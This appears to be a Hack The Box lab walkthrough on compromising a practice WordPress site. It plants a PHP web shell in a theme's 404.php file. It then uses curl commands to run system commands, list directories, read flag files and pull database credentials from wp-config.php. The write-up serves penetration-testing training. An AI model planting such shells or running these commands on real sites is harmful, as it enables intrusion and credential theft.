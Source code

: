 Choose a theme and click on Select. Next, choose a non-critical file such as 404.php

Web Shell Example for Twenty Seventeen Theme - 404.php
```bash
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

Validate that we have achieved RCE
```bash
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

Check files
```bash
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls"
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/"
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/"
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika"
d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt

curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"
HTB{w0rdPr355_4SS3ssm3n7}

curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=pwd"
/var/www/blog.inlanefreight.local/public_html/wp-content/themes/twentyseventeen

curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/var/www/blog.inlanefreight.local/public_html"
```

Get DB Credentials:
```bash
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/var/www/blog.inlanefreight.local/public_html/wp-config.php"
```
```bash
/** MySQL database username */
define( 'DB_USER', 'wp-admin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'WP_wp_skillz!' );
```

Submit the contents of the flag file in the directory with directory listing enabled:
```bash
curl -s -X GET http://blog.inlanefreight.local | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/var/www/blog.inlanefreight.local/public_html/wp-content/uploads/"
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/var/www/blog.inlanefreight.local/public_html/wp-content/uploads/upload_flag.txt"
```
